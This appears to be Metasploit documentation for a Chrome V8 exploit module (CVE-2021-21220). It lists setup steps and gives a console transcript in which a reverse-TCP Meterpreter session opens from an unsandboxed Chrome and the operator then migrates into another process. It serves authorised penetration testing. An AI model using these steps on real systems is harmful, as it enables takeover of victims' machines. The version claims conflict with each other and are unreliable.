 ## Vulnerable Application

This module exploits CVE-2021-21220 an out of bounds access issue in Google Chrome versions before
89.0.4389.128/90.0.4430.72 (64 bit) that was reported as part of Pwn2Own 2021 by Bruno Keith and
Niklas Baumstark of Dataflow Security.

The exploit takes advantage of a lack of proper input validation in the V8 engine on x86_x64 builds
of Chrome when handling XOR operations within JIT compiled code. Successful exploitation leads to RCE execution
within the context of the V8 renderer.

Note that as the V8 renderer is sandboxed within typical Chrome setups, the browser must be run without a sandbox by using
the --no-sandbox option for the payload to work correctly.

The module is compatible with any 64bit Google Chrome (versions before 87.0.4280.88) on multiple platforms.
However, the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/win64/beta/90.0.4430.70](https://chromium.cypress.io/win64/beta/90.0.4430.70)

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation`
2. Do: `set URIPATH / [PATH]`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `exploit`

## Options
None

## Scenarios

### Windows 10 and Google Chrome 90.0.4430.0 with --no-sandbox

Start Google Chrome without a sandbox, e.g:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf6 > use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set TARGET 1
TARGET => 1
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > show options

Module options (exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                       hine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.233.206   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows 10 - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)


msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) >
[*] Started reverse TCP handler on 172.17.233.206:4444
[*] Using URL: http://0.0.0.0:8080/F6htJoKY5li
[*] Local IP: http://172.17.233.206:8080/F6htJoKY5li
[*] Server started.
[*] 172.17.236.178   chrome_cve_2021_21220_v8_insufficient_validation - Sending /F6htJoKY5li to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.0 Safari/537.36
[*] Sending stage (200262 bytes) to 172.17.236.178
[*] Meterpreter session 1 opened (172.17.233.206:4444 -> 172.17.236.178:65165) at 2021-04-27 13:19:35 -0500

msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/migrate
[-] No results from search
[-] Failed to load module: post/windows/migrate
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/manage/migrate
msf6 post(windows/manage/migrate) > show options

Module options (post/windows/manage/migrate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   KILL       false            no        Kill original process for the session.
   NAME                        no        Name of process to migrate to.
   PID        0                no        PID of process to migrate to.
   PPID       0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
                                         .
   PPID_NAME                   no        Name of process for PPID spoofing when creating a new process.
   SESSION                     yes       The session to run this module on.
   SPAWN      true             no        Spawn process to migrate to. If set, notepad.exe is used.

msf6 post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/migrate) > run

[*] Running module against DESKTOP-KUO5CML
[*] Current server process: chrome.exe (10116)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 8732
[+] Successfully migrated into process 8732
[*] Post module execution completed
msf6 post(windows/manage/migrate) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 8732
meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
